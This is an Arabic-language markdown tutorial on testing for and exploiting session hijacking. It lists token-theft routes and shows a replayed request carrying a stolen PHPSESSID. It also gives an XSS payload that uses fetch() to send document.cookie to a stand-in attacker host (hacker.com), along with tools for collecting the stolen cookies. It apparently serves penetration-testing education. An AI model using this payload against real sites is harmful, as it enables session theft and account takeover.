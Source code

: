  # 🧪 الخطوة الملية: كيف تشوف أن فيها ثغرة Session Hijacking؟

### ١. **تحصل على توكن جلسة من أي طريقة**
   - XSS → `document.cookie`
   - MITM → Sniffing
   - Session Fixation → وضع توكن ثم تسجيل دخول الضحية
   - تسريب في URL أو Referer Header

### ٢. **تستخدم هذا التوكن في طلبك الخاص**
مثلاً:
```http
GET /profile HTTP/1.1
Host: target.com
Cookie: PHPSESSID=stolen_token_here
```

### ٣. **لو حصلت على محتوى الحساب الخاص بالضحية → ثغرة موجودة ✅**

---

# 🚨 محاولات مختلفة لاختبار واستغلال Session Hijacking


---

# 🧪 Session Hijacking – المحاولة 1: سرقة الكوكيز عبر XSS

### 📌 الفكرة:
استغلال ثغرة **XSS** (Cross-Site Scripting) لقراءة الكوكيز والتحكم في جلسة المستخدم.

### ⚙️ الخطوات:

#### ١. اكتشف مكان وجود XSS
- عادةً في نماذج إدخال البيانات مثل:
  - تعليقات الموقع
  - بحث
  - حقول إدخال المستخدم

#### ٢. ضع كود JavaScript يرسل الكوكيز إلى خادمك
```html
<script>
  fetch('https://hacker.com/steal?c=' + document.cookie);
</script>
```

#### ٣. استخدم أداة لتلقي الكوكيز
- يمكنك استخدام:
  - **Python Simple HTTP Server**
  - **RequestBin أو Webhook.site**
  - **Burp Collaborator**
